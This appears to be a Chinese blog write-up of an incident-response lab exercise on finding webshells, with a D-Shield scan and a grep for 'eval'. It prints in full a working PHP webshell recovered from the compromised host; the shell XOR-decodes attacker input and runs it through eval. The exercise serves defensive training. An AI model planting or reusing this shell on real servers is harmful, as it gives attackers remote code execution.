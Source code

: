 ```yaml
---
title: '玄机应急响应-第一章'
date: 2024-06-08 13:00:00 +0800
categories: [应急响应,玄机靶场]
tags: ['']
---
```


# 第一章 应急响应-webshell查杀

查杀方法1:`d盾查杀`

![image-20240606152213465](https://img2023.cnblogs.com/blog/3173791/202406/3173791-20240606164444287-2009306262.png)

`查杀方法2:`grep -nr "eval" .`

## 一,黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
//027ccd04-5065-48b6-a32d-77c704a5e26d
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```
